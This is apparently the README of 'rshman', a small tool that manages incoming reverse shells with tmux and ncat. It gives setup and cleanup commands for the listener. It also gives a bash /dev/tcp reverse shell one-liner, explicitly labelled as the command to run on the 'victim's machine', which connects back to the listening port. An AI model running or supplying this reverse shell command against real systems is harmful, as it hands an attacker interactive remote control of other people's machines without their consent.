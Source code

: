 # rshman

A simple reverse shell manager using `tmux` and `ncat`.

## Usage

Listening on port

```shell
git clone https://github.com/djosix/rshman.git
cd rshman

./start 11111 # you will attach to a tmux session called 'rshman'
```

Victim's machine

```shell
bash -c 'bash -i >& /dev/tcp/127.0.0.1/11111 0<&1'
# Once connected to the listening port, the script will create a
# window in our tmux session.
# Just switch to that window and interact with the client.
```

Stop the server and cleanup

```shell
./clean # kill session and remove all socket files
```
